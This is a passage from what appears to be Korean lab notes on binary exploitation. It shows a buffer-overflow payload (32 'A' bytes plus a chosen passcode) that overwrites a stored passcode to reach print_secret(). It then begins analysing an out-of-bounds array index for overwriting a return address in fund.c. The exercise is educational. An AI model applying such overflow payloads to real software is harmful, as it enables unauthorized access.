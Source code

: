 그렇다면 `scanf()`에 `byte * 0x20 + user define passcode + "\0x00"`를 전달하면 passcode를 수정할 수 있다.
String으로 인식해야하므로 뒤에 Null 문자`\0x00`을 집어넣는 것도 잊지 말자.

🔫 그렇다면 전체 Exploit 과정은 다음과 같다.
1. 첫 입력 시 passcode 수정
2. 두 번째 입력 시 수정한 passcode의 값 입력
```
(Trial 1) What is the passcode? : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAHiImHacker
Wrong passcode!
(Trial 2) What is the passcode? : HiImHacker
Secret file content is: 20d33c6e
```

이렇게 하면 밑의 `main()`의 if문을 통과하면서 `print_secret()`를 수행할 수 있게된다.
```c
if (strcmp(input, passcode) == 0) {   // input = "HiImHacker", passcode = "HiImHacker"
    print_secret();                   // Executed!
}
```

#### Chat GPT

글자 "HiImHacker"를 전달하고 싶은데 Byte 변환을 하지 않고 String 그대로 전달하였더니 오류가 나 지피티에게 물어보았다.
다음과 같은 답변을 얻을 수 있었다.
![600](../../../../z.%20Docs/img/Pasted%20image%2020241016035932.png)

----------------------

## 2-4 `fund.c`
> Key Idea: `item[]` 인덱스 접근을 이용한 return address 수정

#### Observation

어셈블리 코드를 살펴보기 전, 먼저 C 코드를 잘 살펴보자.
이 코드의 경우 **2-3**처럼 `print_secret()`을 출력해주는 조건문이 없으로 **2-1**처럼 return address를 수정하여 secret 함수에 접근하는 exploit 방법을 써야한다는 것을 알 수 있다.

Canary가 적용되어있기에, 그나마 가능성있는 접근법을 생각해보자면 `item[]`의 인덱스 접근을 이용하는 것이다.
그렇다면 `item[]`에 접근 중인 `renalance_portfolio()`에서 인덱스 변수에 적절한 값을 전달하여 return address를 고쳐야 한다는 뜻이다.

먼저 `disas rebalance_portfolio`를 통해 어셈블리 코드를 관찰해보자.
```nasm
Dump of assembler code for function rebalance_portfolio:
   0x00000000004013a3 <+0>:     push   %r12
   0x00000000004013a5 <+2>:     push   %rbp
   0x00000000004013a6 <+3>:     push   %rbx
   ...
   0x000000000040140d <+106>:   pop    %rbx
   0x000000000040140e <+107>:   pop    %rbp
   0x000000000040140f <+108>:   pop    %r12
```
여태까지 봐왔던 rsp인자를 왔다갔다 하는 구조가 아니다.
